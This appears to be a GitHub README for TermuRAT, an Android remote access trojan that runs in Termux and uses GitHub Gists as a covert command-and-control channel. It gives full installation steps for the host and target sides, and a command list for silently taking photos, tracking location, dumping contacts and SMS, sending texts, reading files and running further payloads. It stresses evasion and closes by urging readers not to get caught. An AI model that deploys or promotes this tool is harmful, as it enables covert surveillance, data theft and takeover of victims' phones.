

# TermuRAT

**TermuRAT** is a stealthy, terminal-based Android Remote Access Trojan (RAT) built for Termux. It uses private GitHub Gists as a command-and-control (C2) channel, allowing remote command execution and data exfiltration without direct connections or suspicious traffic.

## 📷 Screenshot:


## ⚙️ Features

- 🕵️ **Runs fully in Termux**
- 🛰️ **Gist-based C2** – Pulls commands and uploads results via GitHub Gists.
- 🧠 **Timestamp logic** – Executes commands only when the Gist updates.
- 🧼 **Clean & Minimal** – Lightweight, no dependencies beyond Termux and python in it.

## 🧠 How It Works

1. The Termux script checks a private GitHub Gist at intervals.
2. If the Gist has changed timestamp, it fetches the new command.
3. The command is executed locally in Termux in the target device.
4. The output is pushed back to another Gist as response.

## 📁 Structure

- `target.py` – Main RAT client script (runs on the target via Termux).
- `host.py` – Control-side script to send commands and fetch results.

## 🚀 Setup

1. Create a **GitHub Token**.
2. Set your GitHub token in host scripts.
3. Run `host.py`. It will genarate the gists and print in terminal.
4. Paste the token and gist id in target device and run `target.py` on target device via Termux.
5. Use `host.py` to send commands and read results.

## 📦 Requirements

- Termux and Termux:Api installed on target device.
- GitHub account & token with Gist access
- Terminal to send the command to target device.

## ⚠️ Disclaimer

This tool is for **educational and ethical research purposes only**. Unauthorized access to devices or systems is illegal and unethical. You are responsible for how you use TermuRAT.

## 🛠️ Installation

### On the **Host** (Control Machine):
```bash
pkg update && pkg upgrade
pkg install python git
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/HostSide
python host.py
```
🧠 host.py will auto-generate the required Gists and display their IDs. Like:
```json
{"token": "<your token>", "to_target_gist_id": "<gist_id1>", "to_host_gist_id": "<gist_id2>"}
```

Copy it and paste it in target device.


### On the **Target Device** (Termux):
```bash
pkg update && pkg upgrade
pkg install python git termux-api
pip install requests
git clone https://github.com/opsonusdh/TermuRAT
cd TermuRAT/TargetSide
nano data.json
```
Here you can see json like this: 
```json
{"token": "", "to_target_gist_id": "", "to_host_gist_id": ""}
```
⚠️ Make sure to paste the GitHub Token and Gist ID from host device.
Then run
```bash
python target.py
```

## 🧨 What Can You Do with TermuRAT?

- 🔍 **Run Shell Commands**  
  Execute any shell command on the target device—silently.

- 📂 **Access Files**  
  List directories, read file contents, or exfiltrate sensitive data.

- 📸 **Use Device Sensors**  
  If Termux:API is enabled, access location, battery status, or even take photos.

- 🧾 **Install or Run Scripts**  
  Deploy and run additional payloads or scripts on the fly.

- 🔁 **Persistent Execution**  
  With a little tweaking, make it auto-run at boot like a true lurker.

- 📡 **Communicate Silently**  
  No ports, no listeners—just GitHub being abused like a C2 server.

> And yes, it all happens through a tiny GitHub Gist. Told you it was sneaky.

## 🧪 Example Usage

After launching `target.py`, you can use various commands. Some examples are given below:


termux-toast "You’ve been hacked 😈" [Display a toast message (for fun or trolling)]

termux-vibrate -d 1000 [Vibrate the device for 1 second]

termux-battery-status [Get battery level, charging status, and health]

termux-location [Get the device's current GPS coordinates]

termux-camera-photo -c 0 [Take a photo using the front camera]
 
termux-camera-photo -c 1 [Take a photo using the rear camera]

termux-sensor -l [List all available hardware sensors]

termux-sensor -s accelerometer,gyroscope,light -n 2 | timeout 5 cat [Get real-time accelerometer data]

termux-telephony-deviceinfo [Fetch device IMEI, carrier info, and more]

termux-wifi-connectioninfo [Show current Wi-Fi connection details]
  
termux-contact-list [Dump all saved contacts]

termux-sms-list [List received SMS messages]
 
termux-sms-send -n 1234567890 "Yo, this phone is mine now." [Send an SMS from the target]

termux-notification --title "Warning" --content "You’re being watched." [Push a custom notification]

termux-dialog text [Show a prompt dialog (requires user input)]

df -h [Show internal storage usage stats]

ls /sdcard/ [List files in the device's internal storage]

cat /sdcard/secret.txt [Read contents of a specific file]

top -n 1 [Display real-time system resource usage]

ps -A [List all running processes]  
curl ifconfig.me [Get the device's public IP address]

uptime [Check how long the device has been running]

whoami [Display the current user (usually u0_aXXX in Termux)]

termurat exit -h [Internal command of TermuRAT to exit the program]


## ❌ Cons (a.k.a. Why TermuRAT Isn't God Mode... Yet)

- 📱 Requires Termux to be **open and running** on the target (no background daemon magic)
- 🐢 Kinda slow due to polling + GitHub latency (not for real-time thrills)
- 🔑 Needs a valid **GitHub token** with Gist access (and could get rate-limited or flagged)
- 🌐 Requires internet access on both sides (obviously)
- 🧠 No built-in encryption (commands and responses are plain JSON unless you DIY it)
- 🔒 Cannot bypass Android permission prompts (Termux:API features may require manual grants)
- 🚫 No persistence out-of-the-box (won’t auto-restart after reboot unless you rig it)
- 🤖 Heavily dependent on Termux:API (some devices or versions might lack support)
- 👁️ Easily detectable by someone opening Termux and seeing output or history
- 💥 Can break if Gist is deleted, token revoked, or GitHub throws a tantrum
- - 🔗 A single host can control only **one target per Gist pair** (no multi-target support out of the box)

> Think of TermuRAT as a stealthy intern—it’ll do your bidding, but it won’t take over the world. Yet.


## 🧠 Final Words

TermuRAT is a proof of concept that shows how simple tools can be repurposed for powerful, stealthy control—without fancy exploits, just creativity and clever abuse of APIs. While it’s not a military-grade RAT, it gets the job done quietly, like a whisper in the terminal.

Use it wisely. Use it ethically. Or don’t—just don’t get caught.


**Built with Python, powered by GitHub, operated through Termux.** 
